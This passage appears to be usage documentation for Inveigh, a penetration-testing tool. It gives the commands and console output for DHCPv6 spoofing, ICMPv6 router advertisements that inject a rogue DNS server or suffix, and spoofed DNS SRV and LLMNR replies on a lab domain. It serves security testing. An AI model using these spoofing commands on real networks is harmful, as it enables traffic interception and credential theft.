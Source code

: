 ```
...
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
[+] DNS Listener [Type A]
...
[-] [23:10:30] DNS(A) request [test.inveigh.org] from fe80::6142:1%2 [domain ignored]
[+] [23:10:33] DNS(A) request [wpad.lab.inveigh.org] from fe80::6142:1%2 [response sent]
```
Start DHCPv6 spoofer and also send out ICMPv6 RA packets.  
```
.\Inveigh.exe -dhcpv6 y -icmpv6 y
...
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
[+] DNS Listener [Type A]
[+] ICMPv6 Router Advertisement [Interval 200 Seconds]
...
[+] [23:12:04] ICMPv6 router advertisment sent to [ff02::1]
```
Start DHCPv6 spoofer and answer requests from the local host.
```
.\Inveigh.exe -dhcpv6 y -local y
...
[+] Spoofer Options [Repeat Enabled | Local Attacks Enabled]
[+] DHCPv6 Listener [MAC 52:54:00:FF:B5:53]
```
### <a name="DNS"></a>DNS
Spoof SRV requests in addition to A.
```
.\Inveigh.exe -dnstypes A,SRV -dnshost fake.lab.inveigh.org
...
[+] DNS Listener [Types A:SRV]
...
[+] [23:21:05] DNS(SRV) request [_ldap._tcp.dc._msdcs.lab.inveigh.org] from fe80::242d:f99e:7534:b46f%2 [response sent]
```
### <a name="ICMPv6"></a>ICMPv6
Send ICMPv6 packets to inject a secondary IPv6 DNS server on local subnet systems.
```
.\Inveigh.exe -icmpv6 y
...
[+] ICMPv6 Router Advertisement [Option DNS | Interval 200 Seconds]
...
[+] [23:35:46] ICMPv6 router advertisement with DNSv6 sent to [ff02::1]
```
Send ICMPv6 packets to inject an additional DNS search suffix on local subnet systems.
```
.\Inveigh.exe -icmpv6 y -dnssuffix inveigh.net
...
[+] ICMPv6 Router Advertisement [Option DNS Suffix | Interval 200 Seconds]
...
[+] [23:41:17] ICMPv6 router advertisement with DNS Suffix sent to [ff02::1]
```
### <a name="LLMNR"></a>LLMNR
Spoof AAAA requests instead of A.
```
.\Inveigh.exe -llmnrtypes AAAA
...
[+] LLMNR Listener [Type AAAA]
...
[-] [23:23:38] LLMNR(A) request [test] from fe80::bd92:a800:60d0:8deb%2 [type ignored]
[-] [23:23:38] LLMNR(A) request [test] from 10.10.2.201 [type ignored]
[+] [23:23:38] LLMNR(AAAA) request [test] from 10.10.2.201 [response sent]
[+] [23:23:38] LLMNR(AAAA) request [test] from fe80::bd92:a800:60d0:8deb%2 [response sent]
```